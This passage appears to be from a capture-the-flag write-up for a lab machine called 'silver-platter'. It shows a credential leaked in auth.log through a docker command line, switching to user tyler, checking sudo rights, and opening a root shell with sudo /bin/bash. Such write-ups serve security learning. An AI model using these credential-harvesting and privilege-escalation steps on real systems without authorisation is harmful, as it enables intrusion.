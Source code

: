 ![/tyler_password](./Screenshots/tyler_password.png)

- Found credentials:

```bash
auth.log.2:Dec 13 15:40:33 silver-platter sudo:    tyler : TTY=tty1 ; PWD=/ ; USER=root ; COMMAND=/usr/bin/docker run --name postgresql -d -e POSTGRES_PASSWORD=[REDACTED] -v postgresql-data:/var/lib/postgresql/data postgres:12.3
```

## Switching to Tyler

```bash
su tyler
```

## Confirming User and Sudo Privileges

```bash
whoami && id && sudo -l
```

![/su_tyler](./Screenshots/su_tyler.png)

- User: tyler
- Groups: adm, sudo, lxd, etc.
- Sudo Privileges: `(ALL : ALL) ALL`
## Root Access

```bash
sudo /bin/bash
```
